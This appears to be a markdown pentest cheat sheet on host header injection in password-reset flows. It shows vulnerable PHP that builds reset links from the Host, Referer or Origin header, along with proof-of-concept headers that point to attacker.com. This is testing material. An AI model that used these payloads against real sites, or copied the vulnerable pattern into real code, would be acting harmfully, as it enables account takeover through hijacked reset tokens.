 ## Header Injection attack vectors 

- Forgot password header injection 

Where applicable a developer may implement the forgot password logic as 

```php 
$ForgotPassURI = "https://{$_SERVER['HTTP_HOST']}/dream-auth/forgot?
registration=$token&email=$email";
```
Changing the header to an attacker controlled on might be possible 

- POC

```sh
Host: https://attacker.com
```

- Load Balancer Host Header Override
  Sometimes there is a load balancer or a reverse proxy server between the users and the server so if developers used the HOST Header they will get the host of load balancer so the developer moves to use the X-Forwarded-Host header because the load balancer saves the original HOST header value in X-Forwarded-Host header
  Anyway, this header should not be modified by the users but some weak load balancers or reverse proxies rewrite this header from user input which makes this header suitable for our test.
- POC

   
```sh
X-Forwarded-Host: https://attacker.com
```

- Referrer Header injection
  Some developers expect that to access the forgot password endpoint you need to come from the main subdomain which makes them use the referer header value in their reset password

```php
$ForgotPassURI = "https://{$_SERVER['HTTP_REFERER']}/dream-auth-forgot?
registration=$token&email=$email";
```
- POC

```sh
Referrer: https://attacker.com
```

- Origin 

```php 
$ForgotPassURI = "https://{$_SERVER['HTTP_ORIGIN']}/dream-auth-forgot?
registration=$token&email=$email";
```

POC 

```Origin: https://attacker.com```

